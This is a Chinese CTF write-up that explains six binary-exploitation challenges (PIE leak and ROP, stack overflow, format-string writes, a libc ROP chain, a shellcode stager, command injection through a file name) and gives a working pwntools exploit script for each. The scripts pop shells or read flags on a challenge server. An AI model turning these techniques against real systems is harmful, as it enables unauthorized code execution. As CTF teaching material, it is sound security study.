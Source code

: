 # ezpie
检查保护发现是一个64为程序并开启了PIE保护
![](./image/ezpie_1.png)

在fun函数中发现溢出
![](./image/ezpie_2.png)

我们可以利用这个溢出构建我们的ROP链
但是因为开启了pie保护，我们还需要得到text段的地址
gdb调试一下我们发现在rbp-8的地址发现一个text段的地址
![](./image/ezpie_3.png)
那么我们就可以通过控制输入的字符数量将其打印出来
``` python
from pwn import*
context(arch='amd64', os='linux', log_level='debug')
p = process('./ezpie')
#p = remote('43.249.195.138', 20258)

# 泄露.text段地址
p.recvuntil('input your name-> \n')
payload = b'a' * 40
p.send(payload)
# 接收地址
p.recvuntil(b'a' * 40)
fun_addr=u64(p.recv()[:6].ljust(8, b'\x00'))
addr_base = fun_addr - 0x120E

# ROP链
binsh           = addr_base + 0x2008
syscall         = addr_base + 0x12c5
pop_rdi_ret     = addr_base + 0x1333
pop_rax_ret     = addr_base + 0x12c8
pop_rsi_r15_ret = addr_base + 0x1331

payload  = b'a' * (0x50 + 8)
payload += p64(pop_rax_ret) + p64(59) + p64(pop_rdi_ret) + p64(binsh) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(syscall)
p.send(payload)
p.interactive()
```

# stack
检查保护发现是一个64位程序并且开启了NX保护
![](./image/stack_1.png)
程序只是让我们输入要输入字符串的长度然后输入我们想要的字符串
![](./image/stack_2.png)
那么就直接溢出然后填充返回地址,注意填充的时候要确保i的值不变
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#p = process('./stack')
p = remote('43.249.195.138', 21062)

p.recvuntil('size: ')
p.sendline('200')
p.recvuntil('> ')
payload = b'a' * (32 - 4) + p32(28)
payload += 8 * b'a' + p64(0x4012ee)

p.sendline(payload)
p.interactive()
```

# fmt
检查程序保护, 64位保护全开
![](./image/fmt_1.png)
程序只需要使v1 = 18 && v8 = 52即可
那么我们就可以通过格式化字符串设置v1和v2的值即可
![](./image/fmt_2.png)
我们发现0x7fffffffde20指向了v1的地址, 0x7fffffffde28指向了v2的地址
![](./image/fmt_3.png)
通过fmtar可以看见地址相对于格式化字符串第几个参数
![](./image/fmt_4.png)
我们的exp:
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#p = process('./fmt')
p = remote('43.249.195.138', 21181)

p.recvuntil('> ')
# 目标地址:("\%8$p") ("\%9$p")
payload  = b'%18c%8$n'
payload += b'%34c%9$n'

p.send(payload)
p.interactive()
```

# fries
检查程序保护, 64位保护全开
![](./image/fries_1.png)
发现格式化字符串漏洞, 并且可以利用八次
![](./image/fries_2.png)
我们可以这样利用:
*   第一次泄露glibc地址, 并计算出我们要所使用的gadget片段
*   第二次泄露栈地址
*   第三次rbp+8设置为pop_rdi
*   第四次rbp+16设置为binsh地址
*   第五次rbp+24设置为pop_rsi地址
*   第六次rbp+32设置为0
*   第七次rbp+40设置为execve
*   第八次多给了一次机会，根本不需要
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p       = process('./fries')
#p       = remote('43.249.195.138', 22080)
#libc    = ELF('./libc.so.6')
libc    = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
elf     = ELF('./fries')

p.recvuntil('Emmmmm... Could you give me some fries\n')
p.send('fries\x00')
# 泄露glibc的地址
p.recvuntil('Go get some fries on the pier\n')
payload = b'%59$p'
p.send(payload)
libc_start_main = int(p.recvuntil('Go get some fries on the pier\n')[:14], 16) - 128
# 计算出gadget地址
libc_base   = libc_start_main - libc.symbols['__libc_start_main']
execve      = libc_base + libc.symbols['execve']
binsh       = libc_base + next(libc.search(b'/bin/sh\x00'))
pop_rdi     = libc_base + 0x2a3e5
pop_rsi     = libc_base + 0x2be51

# 泄露栈地址
payload = b'%24$p'
p.send(payload)
rbp     = int(p.recvuntil('Go get some fries on the pier\n')[:14], 16) - 0x50
ret1    = rbp   + 8
ret2    = ret1  + 8
ret3    = ret2  + 8
ret4    = ret3  + 8
ret5    = ret4  + 8

# str的起始地址 : ("%8$p")
# 写入地址gadget是写入的值, target是写入的地址
def run(gadget, target):
    payload = b''
    write_size = 0
    for i in range(3):
        vulen  = (gadget>>(i*16)) & 0xffff
        # 如果已经输入的字符大于了将要输入的值, 那么我们就需要输入对应的负数
        if(vulen > write_size&0xffff):
            payload += b'%' + bytes(str(vulen - (write_size&0xffff)).encode()) + b'c%' + bytes(str(13 + i).encode()) + b'$hn'
            write_size+=vulen - (write_size&0xffff)
        else:
            payload += b'%' + bytes(str(0x10000 - (write_size&0xffff) + vulen).encode()) + b'c%' + bytes(str(13 + i).encode()) + b'$hn'
            write_size+=0x10000 - (write_size&0xffff) + vulen
    payload  = payload.ljust(40, b'a')
    payload += p64(target)
    payload += p64(target + 2)
    payload += p64(target + 4)
    p.send(payload)
    p.recvuntil('Go get some fries on the pier\n')

run(pop_rdi, ret1)
run(binsh, ret2)
run(pop_rsi, ret3)
run(0, ret4)
run(execve, ret5)

p.send(b'aaaa\x00')
#gdb.attach(p, 'b read\nb printf\n')
p.interactive()
```

# abstract_shellcode
检是程序保护, 64位没有开启NX保护
![](./image/shellcode_1.png)

在fun函数使用F5时发现错误
![](./image/shellcode_2.png)
![](./image/shellcode_3.png)

这里直接跳转到栈上指向, 我们删除这一段代码查看伪代码
读取了17个字符放在s中, 并对前16个字符进行检查, ASCII在[79, 95]之间然后跳转到s执行
![](./image/shellcode_4.png)
那么17个字符我们肯定无法直接使用shellcode
那么我们的思路:
*   第一步通过push和pop设置寄存器的值然后执行read读取shellcode到栈上
*   执行栈上读取的shellcode
exp:
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p = process('./abstractshellcode')
#p = remote('43.249.195.138', 21109)

shellcodemy = asm('''
push rdi    # 设置rax为0
pop rax

pop rsi     # 设置rsi指向syscall
pop rsi
pop rsi

push rax    # 设置rdi为0
pop rdi

push rsi    # 设置rsp指向shellcode
pop rsp

pop rdx     # 设置rdx为/50f作为read读取的长度
push rdx

push rsi    # 设置rsp指向shellcode
push rsi

pop rsi     # 填充shellcode使得ret为最后的字符
push rax
pop rax

ret         # 跳转到shellcode
''')

p.recvuntil('input:(ye / no)\n')
p.send(asm('syscall'))
p.recvuntil('---input your pop code---\n')

#gdb.attach(p, 'b *$rebase(0x14A6)\nc')
p.send(shellcodemy)
p.send(b'aa' + asm(shellcraft.sh()))

p.interactive()
```

# touch_file1
检查保护, 64位保护全开
![](image/touch_file1.png)
这里对我们输入的命令进行了检查
![](image/touch_file2.png)
直接发送\ncat flag即可
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#p = process('./touch_file1')
p = remote('43.249.195.138', 20236)

p.recvuntil('> ')
p.send(b'1')

p.recvuntil('file_name: ')
cmd = b'\ncat flag\0'
p.send(cmd)
p.interactive()
```

